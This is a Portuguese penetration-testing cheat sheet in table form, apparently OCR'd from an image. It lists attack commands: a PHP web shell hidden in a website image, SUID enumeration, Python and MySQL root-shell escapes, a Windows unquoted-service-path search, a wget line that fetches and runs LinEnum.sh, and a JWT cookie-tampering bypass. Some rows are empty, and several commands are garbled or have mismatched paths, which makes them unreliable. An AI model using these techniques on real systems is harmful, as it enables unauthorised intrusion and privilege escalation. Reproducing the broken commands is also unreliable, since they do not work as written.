 | Alvo    | Tipo          | Critérios                                         | Método                                                                                                | Código                                                                                                                              | Resultado                                              | Notas                                                               |
|---------|---------------|---------------------------------------------------|-------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------|---------------------------------------------------------------------|
| Website | Injection     | Habilidade de escrever na pasta do website        | Criar ou editar uma imagem do website e inserir o código para obter acesso remoto à máquina           | `<? php system ($ _ GET [''cmd'']); ?>`                                                                                            | Executar código via URL                                | `<URL of php>?cmd=<code to execue>`                                 |
| Linux   | Priv Enum     | Shell                                             | Inserir código no shell para encontrar vulnerabilidades na máquina                                    | `find / -perm -u=s -type f 2>/dev/null`                                                                                             | Binários SUID                                          | Ligar saída a GTFO bins e explorar                  |
| Box     | Priv Esc      | Binário Python rodando como root                  | Gerar um shell usando Python para obter acesso root                                                   | `python3 -c "import pty;pty.spawn('/bin/sh');"`                                                                                    | Shell root                                             | Mudar variável Python de acordo                       |
| SQL     | Priv Esc      | Binário MySQL rodando como root                   | Entrar na linha de comando MySQL e sair para root usando o código                                     | `mysql> \! /bin/sh`                                                                                                                 | Obter shell com privilégio de root do SQL              | NULL                                                |
| Linux   | Priv Enum     | Shell de baixo privilégio                         | Usar o código para procurar programas que rodam como sudo sem senha                                   | `sudo -l`                                                                                                                           | NULL                                                   | Listar programas que podem ser usados com sudo e sem senha |
| Windows | Priv Esc      | PowerShell                                        | Usar código para enumerar oportunidades de escalada de privilégios                                    | `wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` | Lista de caminhos de serviço não entre aspas que podem ser usados para escalada de privilégios | NULL                                                |
| Website | LFI           | NULL                                              | NULL                                                                                                  | NULL                                                                                                                                | NULL                                                   | NULL                                                |
| Linux   | Priv Enum     | NULL                                              | Usar Linenum.sh para enumerar caixa Linux                                                             | `wget https://www.linenum.sh/ -P /dev/shm/Linenum.sh; chmod +x /dev/shm/linenum.sh ; ./dev/shm/linenum.sh | tee /dev/shm/lininfo.txt` | Arquivo, `/dev/shm/lininfo.txt`, com informações de escalada de privilégios | É possível usar outros métodos de download como: curl ou outros encontrados no Google |
| Website | No-Auth       | NULL                                              | NULL                                                                                                  | NULL                                                                                                                                | NULL                                                   | NULL                                                |
| Website | Re-Registration | NULL                                            | NULL                                                                                                  | NULL                                                                                                                                | NULL                                                   | NULL                                                |
| Website | JWT           | Um site que usa JSON como cookies                 | Editar as informações (com BURP) que vão para o website para obter acesso sem autenticação             | NULL                                                                                                                                | NULL                                                   | NULL                                                |
